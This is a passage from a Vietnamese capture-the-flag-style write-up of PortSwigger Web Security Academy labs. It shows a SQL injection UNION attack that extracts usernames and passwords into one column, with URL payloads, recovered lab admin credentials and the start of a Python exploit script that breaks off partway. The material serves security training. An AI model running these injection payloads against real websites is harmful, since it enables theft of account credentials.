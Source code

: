 và mình được mật khẩu của admin là **jvabuznksyj30h0zg1ey**

- đem đi dăng nhập và mình solve được lab này

![ảnh](https://hackmd.io/_uploads/rkp4BRSh6.png)

## 10. Lab: SQL injection UNION attack, retrieving multiple values in a single column

link: https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column

### Đề bài

![image](https://hackmd.io/_uploads/H1ZdQkpca.png)

### Phân tích

- Lab này yêu cầu mình thực hiện tấn công SQL Injection bằng UNION với mục đích lấy ra được nhiều thông tin ra chỉ trong một cột, mà ở đây là lấy được thông tin của username và password trong bảng user
- mình gửi single quote và nhận phản hồi lỗi 500 từ phía server cho thấy web này có thể dính lỗi sqli

![image](https://hackmd.io/_uploads/rJN_En39p.png)

### Khai thác

- Kiểm tra số cột dữ liệu trả về của câu lệnh truy vấn. Payload: `/filter?category=' UNION SELECT NULL, NULL--`

![image](https://hackmd.io/_uploads/rk7dV1p9p.png)

- Như vậy câu lệnh truy vấn trả về 2 cột dữ liệu. Tiếp theo tìm kiếm cột dữ liệu tương thích với kiểu string. Payload `/filter?category=' UNION SELECT NULL, 'column2'--` và `/filter?category=' UNION SELECT 'column1', NULL--`. Ở đây chỉ có cột 2 có thể lợi dụng để hiển thị thông tin khai thác:

![image](https://hackmd.io/_uploads/ryQTVyT56.png)

- Do chúng ta đã biết tên bảng cần khai thác là users cũng với hai cột có tên là username và password, nên ta có kết hợp nối chuỗi để hiển thị đồng thời hai cột dữ liệu username và password. Payload: `/filter?category=' UNION SELECT NULL, username || ':' || password FROM users--`

![image](https://hackmd.io/_uploads/SyRzHy6ca.png)

mình đăng nhập với tài khoản admin **administrator:pu5b8cpq50omjmv55wlh** và giải quyết được bài lab này

mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a9300f4042bb4a480598fa700c60034.web-security-academy.net'

session = requests.Session()

# xác định số cột
for x in range(20):
```